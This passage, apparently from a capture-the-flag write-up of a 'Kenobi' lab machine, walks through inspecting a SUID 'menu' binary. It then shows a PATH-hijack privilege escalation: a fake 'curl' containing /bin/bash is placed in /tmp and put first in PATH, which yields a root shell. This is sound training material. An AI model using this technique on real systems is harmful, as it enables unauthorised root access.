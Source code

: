 ```
.symtab
.strtab
.shstrtab
.interp
.note.ABI-tag
.note.gnu.build-id
.gnu.hash
.dynsym
.dynstr
.gnu.version
.gnu.version_r
.rela.dyn
.rela.plt
.init
.plt.got
.text
.fini
.rodata
.eh_frame_hdr
.eh_frame
.init_array
.fini_array
.jcr
.dynamic
.got.plt
.data
.bss
.comment
```
It's quite messy, but don't worry. Just read it line by line and try to make sense of it.
If you will try to run the binary you will see the following:
```
1. status check
2. kernel version
3. ifconfig
** Enter your choice :
```
In the `strings` output we have this chunk of code right after it:
```
curl -I localhost
uname -r
ifconfig
```
Noticed that it's calling the `curl` without specifying the absolute path?
That should ring the bell for you, as this is our way in.
To move forward you need to understand how $PATH in Linux works. [That](http://www.linfo.org/path_env_var.html) might be a good reading.
Let's do the trick:
```
kenobi@kenobi:/tmp$ echo /bin/bash > curl
kenobi@kenobi:/tmp$ chmod 777 curl
kenobi@kenobi:/tmp$ export PATH=/tmp:$PATH
kenobi@kenobi:/tmp$ /usr/bin/menu
***************************************
1. status check
2. kernel version
3. ifconfig
** Enter your choice :1
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

root@kenobi:/tmp# whoami
root
```